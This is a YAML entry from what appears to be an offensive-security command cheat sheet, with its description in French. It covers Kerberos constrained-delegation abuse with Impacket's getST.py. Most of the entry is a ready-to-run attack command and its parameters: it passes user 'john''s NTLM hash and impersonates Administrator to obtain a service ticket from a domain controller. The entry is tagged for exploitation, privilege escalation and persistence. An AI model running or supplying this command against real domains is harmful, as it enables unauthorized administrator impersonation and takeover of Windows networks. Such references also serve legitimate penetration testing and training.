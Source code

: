 ```yaml
---
description: |
  Le fichier getST.py d'Impacket demandera un ticket de service et le sauvegardera dans ccache. Si le compte a des privilèges de délégation restreints, vous pouvez utiliser le drapeau `-impersonate` pour demander un ticket au nom d'un autre utilisateur. La commande suivante usurpe l'identité du compte Administrateur en utilisant le mot de passe haché de l'utilisateur `john` et demande un ticket de service en son nom pour le service `www` sur l'hôte `server01.test.local`.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Service: www

  	Host Name: server01.test.local

  	Username: john

  	Hash: :2a3de7fe356ee524cc9f3d579f2e0aa7

  	Impersonated User: Administrator

command: |
  python3 getST.py -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7 -spn www/server01.test.local -dc-ip 10.10.10.1 -impersonate Administrator test.local/john
items:
  - Hash
  - Username
services:
  - Kerberos
OS:
  - Linux
  - Windows
  - Approved-tool
attack_types:
  - Exploitation
  - PrivEsc
  - Persistence
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/getST.py
  - http://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html
---
```


